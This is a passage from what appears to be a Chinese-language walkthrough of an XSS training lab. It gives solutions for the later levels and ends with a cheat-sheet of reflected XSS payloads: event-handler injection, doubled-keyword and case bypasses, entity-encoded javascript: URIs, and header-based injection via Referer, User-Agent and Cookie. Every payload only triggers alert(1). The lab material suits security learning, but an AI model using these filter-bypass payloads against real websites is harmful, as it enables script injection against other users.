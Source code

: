 ```
'level1.php?name=test<img src=1 onerror=alert(1)>'
```





### 16.

```
<img%0Asrc=1%0Aonerror=alert(1)>
```



```
?keyword=<img%0Asrc=1%0Aonerror=alert(1)>
```



### 17.

xsf04.swf

后面四个都是使用flash的，需要安装flash才能有弹窗，flash就是swf文件，后面四道题都需要，这里就不做了。

### 18.

### 19.

### 20.

需要FFdec反编译xsf04.swf



### 总结：

- 标签语法替换 
- 特殊符号干扰 
- 提交方式更改 
- 垃圾数据溢出 
- 加密解密算法 
- 结合其他漏洞绕过

标签闭合，双写绕过，大小写绕过，==alert，confirm，prompt==，构造a，img标签，转为Unicode编码，autofocus 属性，http报文中篡改等等

总的来说

```
"><script>alert(1)</script>
xx' onmouseover='alert(1)
xx" onmouseover="alert(1)
"> <a href="javascript:alert(1)">1</a>
"> <a Href="javascript:alert(1)">1</a>
"><sscriptcript>alert(1)</scscriptript>
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
?t_link=&t_history=&t_sort="%20onclick="alert(1)"%20type=""
Referer: "type="text" autofocus onfocus="alert(1)"
User-Agent: " type="text" autofocus onfocus="alert(1)"
Cookie: user=" type="button" onclick="alert(1)
'level1.php?name=test<img src=1 onerror=alert(1)>'
?keyword=<img%0Asrc=1%0Aonerror=alert(1)>
```

